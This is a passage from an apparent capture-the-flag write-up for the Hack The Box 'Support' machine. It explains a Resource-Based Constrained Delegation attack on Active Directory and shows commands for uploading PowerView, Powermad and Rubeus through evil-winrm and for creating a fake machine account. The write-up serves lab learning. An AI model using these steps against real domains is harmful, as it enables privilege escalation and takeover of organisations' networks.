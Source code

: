 Once downloaded, we need only drag and drop the zip file into the BloodHound window to load the acquired data.

We saw that support user is a member of SHARED SUPPORT ACCOUNTS@SUPPORT.HTB which has a direct link with the DC.SUPPORT.HTB

### RBCD Attack
In a nutshell, the Resource-Based Constrained Delegation (RBCD) attack works like this:
1. **Step 1** – Add Fake Computer to the Domain: The attacker controls a computer (let’s call it $FAKE-COMP01) and adds it to the domain.
2. **Step 2** – Set Up the Fake Computer to Act on Behalf of the Domain Controller (DC).
3. **Step 3** – Generate Kerberos Tickets: The attacker requests Kerberos tickets for $FAKE-COMP01.
4. **Step 4** – Impersonate a Privileged User: The attacker uses Pass-the-Ticket (PtT) to authenticate as a privileged user, like the Administrator.

We need to verify that msds-allowedtoactonbehalfofotheridentity attribute is empty. We need to upload PowerView.ps1 to the victim using evil-winrm.

Find it:

```bash
find / 2>/dev/null | grep PowerView.ps1
```

Copy it to directory in where you open evil-winrm session:

```bash
cp /usr/share/windows-resources/powersploit/Recon/PowerView.ps1 ~/HTB/Support/PowerView.ps1
```

Upload it to the victim using our evil-winrm session:

```bash
upload PowerView.ps1
```

Upload Powermad.ps1 as well from [here](https://github.com/Kevin-Robertson/Powermad) and Upload Rabeus.exe:


Now in the victim's machine:

```powershell
Import-Module .\Powermad.ps1
```

![alt text](Snapshots/Support-image-2.png)

Now we see that we can create new computers since our machineaccountquota is 10.

### Creating Fake Machine
```powershell
New-MachineAccount -MachineAccount FAKE-COMP01 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
```
